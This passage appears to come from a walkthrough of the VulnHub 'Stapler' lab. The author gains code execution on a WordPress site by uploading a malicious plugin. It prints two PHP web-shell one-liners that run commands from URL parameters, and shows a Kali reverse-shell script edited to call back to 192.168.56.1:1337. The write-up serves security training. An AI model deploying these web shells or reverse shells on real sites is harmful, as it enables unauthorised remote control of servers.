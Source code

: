 Any option is potentially valid, but I'm going to try modifying a theme page to include php code. Dropping either of these two following two snippets are a typical go to for code execution on the url:

``` php
<?php echo system($_GET["cmd"].' 2>&1'); ?>
// or
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```
I have a through all the themes and can't find a php file I can edit.  
At this point, the plugin is looking like a better option.

If I can upload a php code in a file that launches a reverse shell I might get somewhere.

Luckly Kali comes with a bunch in /usr/share/webshells/php/php-reverse-shell.php

I'll edit the details so I can catch them in a netcat listener:

``` php
$ip = '192.168.56.1';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
```

and upload the file as a plugin 

![evil-plugin.png](/assets/vulnhub_stuff/stapler/evil-plugin.png)

when it asked for the FTP credentials I tried John's again but I recieved an auth error

Going to the uploads directory though, I discover the shell upload succeeded:
https://192.168.56.104:12380/blogblog/wp-content/uploads/


Ok so now we attempt to bounce a shell back to the listner we set up:
